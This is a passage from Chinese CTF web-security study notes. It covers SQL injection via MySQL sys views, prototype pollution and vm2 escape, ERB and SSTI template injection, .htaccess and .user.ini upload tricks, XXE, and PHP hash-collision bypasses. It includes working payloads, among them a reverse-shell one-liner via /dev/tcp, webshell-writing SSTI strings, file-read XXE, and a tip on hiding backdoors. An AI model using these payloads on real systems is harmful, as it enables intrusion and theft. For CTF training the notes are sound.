        -   **x$开头**：适合工具采集数据，原始类数据

##### **sys库的利用**

-   `sys.schema_auto_increment_columns`：监控表自增ID，**保存着自增字段表的相关信息**

```sql
mysql> select * from sys.schema_auto_increment_columns;
+--------------+------------+-------------+-----------+-------------+----------------+
| table_schema | table_name | column_name | data_type |  max_value  | auto_increment | 
+--------------+------------+-------------+-------------+-----------+-------------+--|
| test         | migration  | id          | int       |  4294967295 |            231 | 
+--------------+------------+-------------+-----------+-------------+----------------+
```

-   **基于这个特性，就能替换`information_schema`来查询数据库和表了**

```sql
# 查询有自增索引的数据库名称
select table_schema from sys.schema_auto_increment_columns;

# 根据数据库名称查询存在自增字段的表（存在自增字段的所有表）
select table_name from sys.schema_auto_increment_columns where table_schema='security';
```

>   **但是这里有个明显的不足就是，无法查询指定数据库中某表的列**

###### ==查询不存在自增列的表==

>   可以使用到`schema_table_statistics_with_buffer`和`x$schema_table_statistics_with_buffer`

```sql
# 查询数据库
select table_schema from sys.schema_table_statistics_with_buffer;
select table_schema from sys.x$schema_table_statistics_with_buffer;

# 查询指定数据库的表
select table_name from sys.schema_table_statistics_with_buffer where table_schema='challenges';
select table_name from sys.x$schema_table_statistics_with_buffer where table_schema='challenges';
```

>   **缺陷也是一样的，无法查询指定数据库中某表的列**

##### 解决无列名（无列名注入）

>   因为sys库替换`information_schema`查询不到列，那么可以使用`join`和`using`把其他列名爆出来，`join`无需多说，

>   `using`就比较陌生，
>
>   -   **它是用来简化连接查询的**，**用于两张表的`join`查询，**
>   -   **要求`using`指定的列在两个表中都存在且同名，使用的位置在`join`后的条件**

```sql
# 示例：
select * from brute as a join brute as b on a.`key` = b.`key`;
#等同于：
select * from brute as a join brute as b using(`key`);

# 这sql目的：A 连B表，根据B表的条件，删除A表的数据（B表的数据不会删除）
```

**利用原理**

>   通过关键字join可建立两个表之间的内连接。通过对**想要查询列名所在的表**与其**自身内连接**，
>
>   会**由于冗余的原因（相同列名存在**），**而发生错误**。**并且报错信息会存在重复的列名**，**可以使用 USING 表达式声明内连接条件来避免报错**
>
>   **在联合查询不成功的情况下尝试使用报错注入的函数得到回显子查询结果的报错结果**

```sql
# 获取第一列的列名
union select * from (select * from brute as a join brute as b) c;
	# 结果
	1060 - Duplicate column name 'key'
# 获取第二列的列名
union select * from (select * from brute as a join brute as b using(`key`)) c;
	# 结果
	1060 - Duplicate column name 'firstRequest'
# 获取第三列的列名
union select * from (select * from brute as a join brute as b using(`key`,firstRequest)) c;
	# 结果
	1060 - Duplicate column name 'lastRequest'
```

>   -   **Mysql 5.7.9中新增视图**

```sql
# 不包含in
select table_name from `sys`.`x$schema_flattened_keys` where table_schema = database();
select table_name from `sys`.`x$ps_schema_table_statistics_io` where table_schema = database();
select table_name from `sys`.`x$schema_table_statistics_with_buffer` where table_schema = database();

# 通过表文件的存储路径获取表名
select file from `sys`.`io_global_by_file_by_bytes` where file regexp database();
select file from `sys`.`io_global_by_file_by_latency` where file regexp database();
select file from `sys`.`x$io_global_by_file_by_bytes` where file regexp database();

# 包含之前查询记录的表
select query from sys.x$statement_analysis where query regexp database();
select query from `sys`.`statement_analysis` where query regexp database();

```

>   -   **Mysql 8.0.19 新增`table`关键字 ，它不支持有`where`子句，只显示表的所有列**

```sql
# 它的做用是代替select，比如
select * from test; ==  table test;
```

>   **可以用来盲注**

```sql
admin'and\x0a(table\x0ainformation_schema.tablespaces_extensions\x0alimit\x0a7,1)>
(binary('{}'),'0')#

admin' and (table information_schema.tablespaces_extensions limit)
```


****

## 4、js原型链

==详细介绍js原型链与vm==：**Nssctf：[HZNUCTF 2023 final]eznode**

使用到的playload

```json
{"shit":1,"__proto__":{"shellcode":"let res = import('./app.js'); res.toString.constructor(\"return this\") ().process.mainModule.require(\"child_process\").execSync('bash -c \"bash -i >& /dev/tcp/ip/port 0>&1\"').toString();"}} 

```


>   ```markdown
>   对象(obj)中寻找这一属性
>   如果找不到，则在obj.__proto__中寻找属性
>   如果仍然找不到，则继续在obj.__proto__.__proto__中寻找这一属性
>   ```

**思路：js审计如果看见merge，clone函数，可以往原型链污染靠**

**定义：如果可以控制或者修改一个对象的原型，那么可以将修改的结果影响到：同一个类、父类、子类的对象，这种攻击方式就叫原型链污染**

```js
// 其案例类型为：
	let foo = {bar: 1}
    console.log(foo.bar)   == 1
    foo.__proto__.bar = 2
    console.log(foo.bar)   == 1 
    let zoo = {}
    console.log(zoo.bar)   == 2

```

==总结技巧==

-   原型链污染属于前端漏洞应用，基本上需要源码审计功力来进行解决；
    -   找到`merge()`,`clone()`只是确定漏洞的开始
-   进行审计需要以**达成RCE为主要目的**。通常`exec, return`等等都是**值得注意的关键字**。
-   题目基本是以弹shell为最终目的。目前来看很多Node.js传统弹shell方式并不适用.wget,curl,以及我两道题都用到的nc比较适用。

### 1、javascript大小写特性

-   **使用js中的toUpperCase()函数打印所有的字母可以发现会出现两个奇怪的字符**：`ı、ſ`。	

```js
 这两个字符的“大写”是I和S。
 也就是说"ı".toUpperCase() == 'I'，"ſ".toUpperCase() == 'S'。
 通过这个小特性可以绕过一些限制。
```

-   **同样，toLowerCase也有同样的字符**：

```js
输出的"K"的“小写”字符是k，也就是"K".toLowerCase() == 'k'. 
```

比如这题会使用到javascript的大小写：**[GYCTF2020]Ez_Express**

### 2、vm2

题目：**Nssctf：[HGAME 2023 week4]Shared Diary**

#### vm2的沙箱逃逸：[HZNUCTF 2023 final]eznode

**详细介绍了原型链污染**

**vm2 原型链污染导致沙箱逃逸 poc：**

```js
let res = import('./foo.js')
res.toString.constructor("return this")().process.mainModule.require("child_process").execSync("whoami").toString();

```

```nginx
# plaload
{"shit":1,"__proto__":{"shellcode":"let res = import('./app.js'); res.toString.constructor(\"return this\") ().process.mainModule.require(\"child_process\").execSync('bash -c \"bash -i >& /dev/tcp/ip/port 0>&1\"').toString();"}} 

```


****

## 5、Ruby ERB注入

### 1、认识

-   Ruby是一种纯粹的面向对象编程语言
-   Ruby 的特性与 Smalltalk、Perl 和 Python 类似

### 2、案例 Buu：[SCTF2019]Flag Shop

```ruby
<table border="1">9
    <tbody>
        <tr>
            <td>User: </td>
            <td><%= user.username %></td>
        </tr>
            <tr>
            <td>Created: </td>
            <td><%= user.tombstone %></td>
        </tr>
    </tbody>
</table>
```

>   其中：`<%= %>`语法可以用来执行Ruby语句，**并会尝试将结果转换为字符串**
>
>   其中：`<% %>`语法可以执行Ruby语句，**并可以创建自己的局部变量**

>   判断这个语法是否生效可以使用`<%= 7 * 7 %>`,然后观察是否会计算出结果，如果会计算出结果，那么就存在模版注入漏洞

>   但是如果要执行函数的话，这会受到Ruby模版引擎的安全等级级别限制：
>
>   当安全级别为3的话，无法执行文件操作相关的函数
>
>   ​		`%= File.open(‘/etc/passwd’).read %>`
>
>   当安全级别为4的话，就只能执行标记为可信任的代码，这个级别最为严格

>   这里就可以使用小工具（gadget），它可以分析对象：如：**self:** 当前方法的接收器对象
>
>   ```c
>   // 分析self对象（self-object），我们可以尝试枚举该对象可用的属性及方法
>   <%= self %>
>      // 获取self对象的类名
>      <%= self.class.name %>
>      // 枚举TemplateInjection类的可用方法
>      <%= self.methods %>
>      // 由于我们正往服务器发送HTTP POST请求，
>      // 因此可以猜到我们很有可能处于handlePOST或者doPOST函数内部。
>      // 也许我们可以借此访问某些局部变量
>      <%= self.method(:handle_POST).parameters %>
>      // 确认session对象的具体含义
>      <%= session.class.name %>
>      //  使用某些内省方法，确认我们是否可以访问这些变量以及其他可用变量。
>      <%= self.instance_variables %>
>      <%=@server.instance_variables %>
>      // @server返回的结果中，比较重要的是@ssl_context变量
>      // 这个变量可能会包含某些密钥或者其他有用的信息
>      // 保存@sll_context的引用，使载荷可读性更好，方便随后在模板中加以引用
>      <% ssl=@server.instance_variable_get(:@ssl_context) %><%= ssl.instance_variables %>
>      // 上面返回的结果中，获取@key变量的值
>      <% ssl = @server.instance_variable_get(:@ssl_context) %><%= ssl.instance_variable_get(:@key) %>
>      // 这样就有可能拿到服务器的私钥
>   ```
>
>   
>
>   >   -   变量的种类
>   >
>   >       -   一般小写字母、下划线开头：变量（Variable）。
>   >       -   `$`开头：全局变量（Global variable）。
>   >       -   `@`开头：实例变量（Instance variable）。
>   >       -   `@@`开头：类变量（Class variable）类变量被共享在整个继承链中
>   >       -   大写字母开头：常数（Constant）。
>   >
>   >   -   ruby中支持全局变量，ruby中的全局变量有如下几个特点：
>   >
>   >       -   标识符以`$`开头标记
>   >
>   >       -   **全局变量可以在程序的任何地方加以引用**
>   >
>   >       -   全局变量无需提前进行变量声明。引用尚**未初始化**的全局变量时，**其值为 nil**。
>   >
>   >   -   ruby中的**常量**，**必须在类中定义，不能定义到方法中，常量标识符的首字母必须大写**
>   >
>   >   ctf中可以运到到ruby的全局变量：https://blog.csdn.net/zdq0394123/article/details/8443694

****

## **6、【文件上传】**

==php3，php5，pht，phtml，phps都是php可运行的文件扩展名==

### **1、.user.ini上传**

```nginx
大致意思就是：我们指定一个文件（如a.jpg），
那么该文件就会被包含在要执行的php文件中（如index.php），
类似于在index.php中插入一句：require(./a.jpg);
这两个设置的区别只是在于
auto_prepend_file是在文件前插入；
auto_append_file在文件最后插入（当文件调用的有exit()时该设置无效）

然后就阔以设置.user.ini中的上传木马
GIF89a
auto_prepend_file=a.jpg

上传成功后需要上传目录中要有一个.php文件，然后去访问它，那么在访问中就会默认执行写在.user.ini中的命令


open_basedir是php.ini中的一个配置选项，它可将用户访问文件的活动范围限制在指定的区域

假设open_basedir=/home/wwwroot/home/web1/:/tmp/，那么通过web1访问服务器的用户就无法获取服务器上除了/home/wwwroot/home/web1/和/tmp/这两个目录以外的文件。

注意用open_basedir指定的限制实际上是前缀,而不是目录名。

举例来说: 若”open_basedir = /dir/user”, 那么目录 “/dir/user” 和 “/dir/user1″都是可以访问的。所以如果要将访问限制在仅为指定的目录，请用斜线结束路径名。
```

**实战利用的可能性**

-   服务器脚本语言为php
-   服务器使用CGI /  FastCGI模式
-   上传目录下要有可执行的php文件
-   从这来看`.user.ini`要比`.htaccess`的应用范围要广一些，毕竟`.htaccess`只能用于Apache
-   限制性在于需要有php，但如果能找到上传到任意位置的漏洞时，也非常好用
-   除此之外，把`.user.ini`利用在隐藏后门上应该是个很好的利用方法，我们在存在php文件的目录下留下`.user.ini`和我们的图片马，这样就达到了隐藏后门的目的


****

### 2、[.htaccess](https://xz.aliyun.com/t/8267)

 概念

-   `.htaccess` 文件提供了针对目录改变配置的方法， 

    -   在一个特定的目录中放置一个包含一条或多条指令的文件， 以作用于此目录及其所有子目录。

    -   作为用户，所能使用的命令受到限制。

    -   管理员可以通过 `Apache` 的 `AllowOverride` 指令来设置。

-   `.htaccess` 中有 `#` 单行注释符, 且支持 `\`拼接上下两行。

作用范围

-   ==**文件所在的目录及其所有子目录**==

-   ==**子目录中的指令会覆盖父目录或者主配置文件中的指令**==

配置文件

```bash
AllowOverride All  #启动.htaccess文件的使用
AccessFileName .config #将.htaccess修改为.config
```

#### 常用的参数命令

##### 1、SetHandler

**`SetHandler` 可以强制所有匹配的文件被一个指定的处理器处理**

```py
案例：
    SetHandler application/x-httpd-php
    # 此时当前目录及其子目录下所有文件都会被当做 php 解析
    SetHandler server-status
    # apache的服务器状态信息(默认关闭)，可以查看所有访问本站的记录
```

##### 2、 AddHandler

**`AddHandler` 可以在文件扩展名与特定的处理器之间建立映射**

```py
案例:
    AddHandler cgi-script .xxx
    # 将扩展名为 .xxx 的文件作为 CGI 脚本来处理
```

##### 3、AddType

**`AddType` 可以将给定的文件扩展名映射到指定的内容类型**

```py
案例：
	AddType application/x-httpd-php .gif
    # 将以 gif 为后缀的文件当做 php 解析
    AddType application/x-httpd-php png  jpg gif
    # 将以 .png .jpg .gif 多个后缀当做 php 解析
```

##### 4、php_value

>   当使用 `PHP` 作为 `Apache` 模块时，也可以用 `Apache` 的配置文件（例如 `httpd.conf`）和 `.htaccess` 文件中的指令来修改 `php` 的配置设定。需要有`AllowOverride Options` 或`AllowOverride All` 权限才可以。

**`php_value` 设定指定的值。要清除先前设定的值，把 `value` 设为 `none`**

**不要用 `php_value` 设定布尔值。应该用 `php_flag`**

**因为.htaccess 只能用于 php_ini_all 或 php_ini_perdir 类型的指令。**

**可以通过这里查看可利用的命令：https://www.php.net/manual/zh/ini.list.php**

###### 1、文件包含配置选项

-   **auto_prepend_file**：在主文件解析之前自动解析包含的文件
-   **auto_append_file**：在主文件解析后自动解析包含的文件

```py
案例：
	php_value auto_prepend_file images.png
    # 访问一个 php 文件时，在该文件解析之前会先自动解析 images.png 文件
```

###### 2、绕过preg_match

```py
案例：
	php_value pcre.backtrack_limit 0
	php_value pcre.jit 0
    # 设置正则回朔次数来使正则匹配的结果返回为 false 而不是0 ，从而可以绕过正则。
```


##### 5、php_flag

**`php_flag` 用来设定布尔值的 `php` 配置指令**

```py
php_flag engine 0
# 可以将 engine 设置为 0,在本目录和子目录中关闭 php 解析,造成源码泄露
```

##### 6、利用方式

###### 文件解析

-   经常出现在文件上传的黑名单没有限制 `.htaceess` 后缀，
-   通过上传 `.htaccess` 文件，再上传图片，使图片的 `php` 恶意代码得以被解析执行

-   `.htaccess` 文件内容有如下两种

    ```py
    # SetHandler 指令
    	# 将images.png 当做 PHP 执行
        <FilesMatch  "images.png">
        SetHandler  application/x-httpd-php
        </FilesMatch>
    
    # AddType
    	# 将 .jpg 当做 PHP 文件解析
    	AddType application/x-httpd-php .png
    ```

###### 文件包含

**本地文件包含**

-   通过 `php_value` 来设置 `auto_prepend_file`或者 `auto_append_file` 
-   配置选项包含一些敏感文件, 同时在本目录或子目录中需要有可解析的 `php` 文件来触发
-   `.htaccess` 分别通过这两个配置选项来包含 `/etc/passwd`,并访问同目录下的 `index.php`文件

```basic
php_value auto_prepend_file /etc/passwd
php_value auto_append_file /etc/passwd
```

**远程文件包含**

-   PHP 的 `all_url_include` 配置选项这个选项默认是关闭的，如果**开启的话就可以远程包含**
-   因为 `all_url_include` 的配置范围为 `PHP_INI_SYSTEM`，所以无法利用 `php_flag` 在 `.htaccess` 中开启。
-   只能在`php.ini` 中设置 `all_url_include` 为 `On`

```basic
php_value auto_append_file http://10.87.9.156/phpinfo.txt
```

###### 代码执行

**利用伪协议**
需要配置`all_url_fopen`、`all_url_include` 为 `On`

```js
// PD9waHAgcGhwaW5mbygpOw==  == <?php phpinfo();
php_value auto_append_file data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
#php_value auto_append_file data://text/plain,%3C%3Fphp+phpinfo%28%29%3B
```

**解析`.htaccess`**（一）

```js
php_value auto_append_file .htaccess
#<?php phpinfo();
```

（二）

-    这种适合同目录或子目录没有 `php` 文件。
-   需要先设置允许可访问 `.htaccess` 文件

```js
<Files ~ "^.ht">
 Require all granted
 Order allow,deny
 Allow from all
</Files>

// 将 .htaccess指定当做 php文件处理
SetHandler application/x-httpd-php
# <?php phpinfo(); ?>
```

https://xz.aliyun.com/t/8267


****

### 3、检测后缀绕过方法

```java
存在path参数可控，配合解析漏洞上传webshell
    
php 00截断: GET:/upload/1.php%001.jpg
    这个要服务器是apache，因为Apache服务器解析文件名是从右向左，不能识别就跳过，
    jpg是Apache不能识别的，所有取一个文件名为：1.php.gif就会识别成php
    
POST:在文件名后burpsuite添加二进制00
```

**适用场合**

```java
include(require)
file_get_contents
file_exists
所有url中参数可以用%00控制
```

### 4、服务端**文件扩展名**检测

**绕过方法**

>   利用思路:
>
>   -   **os系统特性、**
>   -   **后缀名截取不规范、**
>   -   **php代码缺陷、**
>   -   **过滤不完全、**
>   -   **配合伪协议解析图形文件**

**后端采用in_arrary函数判断文件后缀(黑名单)**

-   更换.htaccess偏门文件名和后缀名
-   未去除末尾空格，添加空格绕过
-   ::$DATA绕过（windows）
-   大小写混写
-   后缀添加点号(windows)
-   不可绕过考虑phar://协议利用，若过滤配合(compress://)
-   /.符号绕过

**白名单**

webserver解析漏洞、00解析漏洞


### 5、服务端**文件内容**检测

**文件幻数检测**

JPG ： FF D8 FF E0 00 10 4A 46 49 46
GIF ： 47 49 46 38 39 61 (GIF89a)
PNG： 89 50 4E 47

**绕过方法:伪造幻数，添加webshell**


### 6、XXE文件上传

>   主要利用点就是使用xml文件头声明来读取文件，如下：`<!ENTITY xxe SYSTEM "file:///flag" >]>`
>
>   以下就简单的读取根目录下的flag文件

```xml
<?xml version='1.0'?>
<!DOCTYPE users [
<!ENTITY xxe SYSTEM "file:///flag" >]>
<users>
    <user>
        <username>gg</username>
        <password>passwd1</password>
        <name>ggg</name>
        <email>alice@fakesite.com</email>  
        <group>CSAW2019</group>
        <intro>&xxe;</intro>
    </user>
    <user>
        <username>bob</username>
        <password>passwd2</password>
        <name> Bob</name>
        <email>bob@fakesite.com</email>  
        <group>CSAW2019</group>
        <intro>&xxe;</intro>
    </user>
</users>
```

>   但一般会存在waf过滤，那么就有必要了解一下xml的特性

-   **xml文档不仅可用使用`UTF-8`编码，也可以使用`UTF-16（变体：BE、LE）、UTF-32（变体：BE、LE、2143、3412）、EBCDIC`编码**
-   **在这种编码的帮助下，使用正则表达式可以很容易地绕过WAF，因为在这种类型的WAF中，正则表达式通常仅配置为单字符集**

```xml
<?xml version='1.0'?>
<!DOCTYPE users [
<!ENTITY xxe SYSTEM "file:///flag" >]>
<users>
    <user>
        <username>gg</username>
        <password>passwd1</password>
        <name>ggg</name>
        <email>alice@fakesite.com</email>  
        <group>CSAW2019</group>
        <intro>&xxe;</intro>
    </user>
    <user>
        <username>bob</username>
        <password>passwd2</password>
        <name> Bob</name>
        <email>bob@fakesite.com</email>  
        <group>CSAW2019</group>
        <intro>&xxe;</intro>
    </user>
</users>
```

>   **让以上代码转换为`UTF-16`只需要再Linux系统上执行命令**
>
>   ```bash
>   cat 1.xml | iconv -f UTF-8 -t UTF-16BE > x16.xml
>   ```
>
>   **1.xml为源文件，x16.xml为输出文件**


## 7、目录扫描类

```nginx
-- 当flag处于内网的时候可以使用ssrf访问flag.php,进行构造伪协议
file://var/www/html/flag.php访问。

-- 弱类型比较。在比较的过程中因为$key是数字，所以str也会被隐性地转换成整型
```

### 1、扫描后常见可利用后缀文件

```nginx
响应200
.swp
.bak
www.zip
www.rar
www.tgz
robots.txt	
	robots协议也称爬虫协议、爬虫规则，它用来告诉搜索引擎那些页面可以抓取，哪些不行
	搜索引擎则通过读取robots.txt文件来识别这个页面是否允许被抓取
	但是,这个robots协议不是防火墙,也没有强制执行力,搜索引擎完全可以忽视robots.txt文件去		抓取网页的快照
phpinfo.php
/app.js
/app/app.js

vim
.i
```


## 8、Flask（Python框架）

==SSTI==模板注入类（IP）

```c
-- 通用payload
  
{{["id"]|map("system")|join(",")
{{["id", 0]|sort("system")|join(",")}}
{{["id"]|filter("system")|join(",")}}
{{[0, 0]|reduce("system", "id")|join(",")}}
{{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}}
{{{'<?php phpinfo();':'/var/www/html/shell.php'}|map('file_put_contents')}}
```

-   通过 SSTI 漏洞获取，如 `/{{config}}`
-   通过 SSRF 读取存在 `secret_key` 的 Flask 配置文件或读取 /proc/self/environ 获取


### 0、解释和服务器获取ip的方法

-   **X-Forwarded-For**中获取
-   **Client-ip**中获取

>   模板渲染接受的参数需要用两个大括号括起来`{{}}`，所以我们需要在大括号内构造参数形成注入
>
>   SSTI注入


### 1、模版注入漏洞

-   判断方法
    -   在X-Forwarded-For中填入任意值，看是否会正常显示
    
    -   正常显示推测存在模版注入漏洞
    
        -   进一步判断输入运算式如：`{2*2} 或 {{2*2}}`
    
        -   ```
            ${7*7}   => 49
            {{7*'7'}}
            a{*comment*}b => ab
            ${"z".join("ab")}
            
            ```
    
            
    
            -   
    
    -   推测：Smarty模板的SSTI漏洞（主要为Flask存在Jinjia2模版注入漏洞）
    
    -   #### **Smarty模板**
    
    -   ==更具体解析查看：[HDCTF 2023]SearchMaster==
    
        -   一般情况下输入=={$smarty.version}==就可以看到返回的smarty的版本号
    
        -   常用利用方式：
    
            -   Smarty支持使用{php}{/php}标签来执行被包裹其中的php指令，最常规的思路自然是先测试该标签。
    
                -   但就该题目而言无效，因为3.1.30已废除这个{php}标签。
    
            -    {literal}可以让块中间的内容忽略Smarty的解析。我们可以使用，
    
                -   ```
                    {literal}<script language="php">phpinfo();</script>{/literal}
                    ```
    
                -   但是php7已经不支持`<script language="php">`这种写法了。
    
            -    每个{if}必须有一个配对的{/if}. 也可以使用{else} 和 {elseif}. 全部的PHP条件表达式和函数都可以在if内使用。
    
                -   也就是说我们把php代码写在`{if PHP代码}{/if}` 就可以了，PHP代码可以被执行。
    
                -   ```
                    {if system('cat /flag')}{/if}##注意语句后面不需要分号。
                    {if @assert($_POST['a'])}{/if}
                    ```
            
            -   ```
                {php} 标签
                {literal} 标签
                {if} 标签 （牛掰）
                ```
            
                
    
-   如果存在可以进一步测试模板算式：{{7*8}}
    -   如果可以计算成功并显示，进一步尝试是否可以指向命令：{{system(‘ls’)}}
    -   执行成功就阔以去拿flag，一般在根目录中使用命令：{{system(‘cat /flag’)}}
    
-   如果将（）过滤掉，且过滤掉了一下关键字【config，self】

    -   这时需要读取一些例如`current_app`这样的全局变量，current_app是当前使用的app
    -   ==python的沙箱逃逸这里的方法是`利用python对象之间的引用关系来调用被禁用的函数对象`。==
    -   这里有两个函数包含了`current_app`全局变量，==`url_for`和`get_flashed_messages=`==
    -   我们注入`{url_for.__globals__}`得到`current_app`
    -   继续注入当前`app`的`config` 使用`{url_for.__globals__['current_app'].config}`

### 2、cookie型模板注入

-   判断是否有输入框

    -   输入框是否输入什么就显示什么

    -   测试是否存在注入点

    -   如果存在观察**服务端响应头**是否多了什么

        -   如果确认是ssti模板注入，判断服务端使用的语言类型，

        -   存在ssti注入的一些引擎

            -   ```
                python: jinja2 mako tornado django
                php:smarty twig Blade
                java:jade velocity jsp
                ```

            -   twig注入方式：

                -   `{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("cat /flag")}}`

                -   常用注入payload：

                -   ```twig
                     {{'/etc/passwd'|file_excerpt(1,30)}}
                    {{app.request.files.get(1).__construct('/etc/passwd','')}}
                    {{app.request.files.get(1).openFile.fread(99)}}
                    {{_self.env.registerUndefinedFilterCallback("exec")}}
                    {{_self.env.getFilter("whoami")}}
                    {{_self.env.enableDebug()}}{{_self.env.isDebug()}}
                    {{["id"]|map("system")|join(",")
                    {{{"<?php phpinfo();":"/var/www/html/shell.php"}|map("file_put_contents")}}
                    {{["id",0]|sort("system")|join(",")}}
                    {{["id"]|filter("system")|join(",")}}
                    {{[0,0]|reduce("system","id")|join(",")}}
                    {{['cat /etc/passwd']|filter('system')}}
                    ```

                    


### 3、base类型SSTI注入

-   判断注入点
    -   base64decode在不会解析的时候就会报错。报错会暴露一些源码
    -   

-   读源码：

    -   ```nginx
        {{ c.__init__.__globals__['__builtins__'].open('app.py','r').read() }}
        
        ```

-   利用字符串拼接寻找目录

    -   ```nginx
        {{''.__class__.__bases__[0].__subclasses__()[75].__init__.__globals__['__builtins__']['__imp'+'ort__']('o'+'s').listdir('/')}}
        最后为文件路径地址
        
        -- 读取使用切片省去了拼接flag的步骤
        {{ c.__init__.__globals__['__builtins__'].open('txt.galf_eht_si_siht/'[::-1],'r').read() }}
        
        -- 拼接flag
        
        {{ c.__init__.__globals__['__builtins__'].open('/this_is_the_fl'+'ag.txt','r').read() }}
        
        ```

        

### 4、flash注入总结

>   常用搭配方式：
>
>   1.   `__class__`列出对象的属性
>   2.   `__class__.__mro__`找到object属性的位置
>   3.   `__class__.__mro__[object位置下标].__subclasses__()`列出所有属性

-   `__class__：对象的属性，返回对象的类型`
-   `__mro__：类的属性，返回包含类的所有父亲元组`
-   `__base__：类的属性，返回类所继承的基类`
-   `__globals__：函数的属性，返回一个字典（每个函数都有）`
    -   里面有当前空间下能使用的模块、方法、全局变量
-   `__init__：类的初始化方法`
-   `__subclasses__()：类的属性，子类的列表`
-   `__import__：`
    -   结构：`__improt__(<module name>)`
    -   功能：返回一个模块：`a = __import__("os")`
-   `exec`
    -   结构：`exec(<python code>)`
    -   功能：运行Python代码，`exec(''' import os ''')`
-   `open`
    -   结构：`open(<file path>)`
    -   功能：返回一个file对象，`open("flag.txt","r")`
-   `_getitem__`
    -   结构：`[1,2,3].__getitem__(2) == 3`   `{"a":1}.__getitem__("a") == 1`
    -   功能：根据list的index返回对应元素    根据key名，返回字典中对应的value
-   `pop`
    -   结构：
        -   `[1,2,3].pop(0) == 1`		
            -   返回list的第0个元素，并且list的元素减少	
        -   `{"a":1}.pop("a") == 1`
            -   返回dict的key对应的value

### 5、flash模板注入可利用的Python模块

1.   subprocess.Popen
2.   os.wrap_close
3.   warnings.catch_warnings
4.   class 'site._Printer'


### 6、Get命令执行

**file 协议利用 open 命令执行**

==**[perl](https://deepinout.com/linux-cmd/linux-program-compile-related-cmd/linux-cmd-perl.html)**的特点，在open下可以执行命令。前提是文件事先存在,==

==**要执行的命令先前必须要有以命令为文件名的文件存在**==


## 9、编码、md5碰撞、RCE绕过

>   **==会同时比较字符串的值和类型==
>   ==会先将字符串换成相同类型，再作比较，属于弱类型比较==
>   ==对于所有0e开头的都为相等==**

-   判断方法
    -   是否存在base64加密字符串，

#### md5强碰装

-   **使用md5加密后两个完全相等的两个字符串来绕过过滤。**
-   

>   两个值 == 比较不相等，md5加密 ===  要相等
>
>   ```php
>   if (isset($_POST['array1']) && isset($_POST['array2'])){
>   	$a1 = (string)$_POST['array1'];
>       $a2 = (string)$_POST['array2'];
>       if ($a1 == $a2){
>           die("????");
>       }
>       if (md5($a1) === md5($a2)){
>           echo $level3;
>       }
>       else{
>           die("level 2 failed ...");
>       }
>   }
>   ```
>
>   ==提供俩个值==
>
>   ```
>   a=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%00%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%55%5d%83%60%fb%5f%07%fe%a2
>   &b=%4d%c9%68%ff%0e%e3%5c%20%95%72%d4%77%7b%72%15%87%d3%6f%a7%b2%1b%dc%56%b7%4a%3d%c0%78%3e%7b%95%18%af%bf%a2%02%a8%28%4b%f3%6e%8e%4b%55%b3%5f%42%75%93%d8%49%67%6d%a0%d1%d5%5d%83%60%fb%5f%07%fe%a2
>   ```
>
>   **sha1()强碰撞**
>
>   ```
>   array1=%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01%7FF%DC%93%A6%B6%7E%01%3B%02%9A%AA%1D%B2V%0BE%CAg%D6%88%C7%F8K%8CLy%1F%E0%2B%3D%F6%14%F8m%B1i%09%01%C5kE%C1S%0A%FE%DF%B7%608%E9rr/%E7%ADr%8F%0EI%04%E0F%C20W%0F%E9%D4%13%98%AB%E1.%F5%BC%94%2B%E35B%A4%80-%98%B5%D7%0F%2A3.%C3%7F%AC5%14%E7M%DC%0F%2C%C1%A8t%CD%0Cx0Z%21Vda0%97%89%60k%D0%BF%3F%98%CD%A8%04F%29%A1&array2=%25PDF-1.3%0A%25%E2%E3%CF%D3%0A%0A%0A1%200%20obj%0A%3C%3C/Width%202%200%20R/Height%203%200%20R/Type%204%200%20R/Subtype%205%200%20R/Filter%206%200%20R/ColorSpace%207%200%20R/Length%208%200%20R/BitsPerComponent%208%3E%3E%0Astream%0A%FF%D8%FF%FE%00%24SHA-1%20is%20dead%21%21%21%21%21%85/%EC%09%239u%9C9%B1%A1%C6%3CL%97%E1%FF%FE%01sF%DC%91f%B6%7E%11%8F%02%9A%B6%21%B2V%0F%F9%CAg%CC%A8%C7%F8%5B%A8Ly%03%0C%2B%3D%E2%18%F8m%B3%A9%09%01%D5%DFE%C1O%26%FE%DF%B3%DC8%E9j%C2/%E7%BDr%8F%0EE%BC%E0F%D2%3CW%0F%EB%14%13%98%BBU.%F5%A0%A8%2B%E31%FE%A4%807%B8%B5%D7%1F%0E3.%DF%93%AC5%00%EBM%DC%0D%EC%C1%A8dy%0Cx%2Cv%21V%60%DD0%97%91%D0k%D0%AF%3F%98%CD%A4%BCF%29%B1
>   ```
>
>   

#### md5弱类型

>   找到一个数字，没加密和加密后相等
>
>   ```
>   0e215962017
>   ```
>
>   ```php
>   <?php
>       $flag = 'ook!';
>       $a = $_GET['a'];
>       if ($a != 'QNKCDZO' && md5($a) == md5('QNKCDZO')) {
>           echo $flag;
>       }else{
>       echo('你的答案不对0.0');
>   }
>   
>   /** 
>   	上面这段代码中就是上述0e开头的所有字串都被认为是0，
>   	PHP在处理哈希字符串时，会利用”!=”或”==”来对哈希值进行比较，
>   	它把每一个以”0E”开头的哈希值都解释为0
>   	所以我们先看看md5('QNKCDZO')的结果是0e830400451993494058024219903391，
>   	那么所有0e开头的md5串都可以满足上面的条件。
>   常用的有：
>   	QNKCDZO
>       0e830400451993494058024219903391
>       240610708
>       0e462097431906509019562988736854
>       s878926199a
>       0e545993274517709034328855841020
>       s155964671a
>       0e342768416822451524974117254469
>       s214587387a
>       0e848240448830537924465865611904
>   	s1502113478a
>       0e861580163291561247404381396064
>       s1885207154a
>       0e509367213418206700842008763514
>   */
>   ```
>
>   

#### 使用 Error/Exception 内置类绕过哈希比较

[极客大挑战 2020]Greatphp

```js
案例代码
class SYCLOVER {
    public $syc;
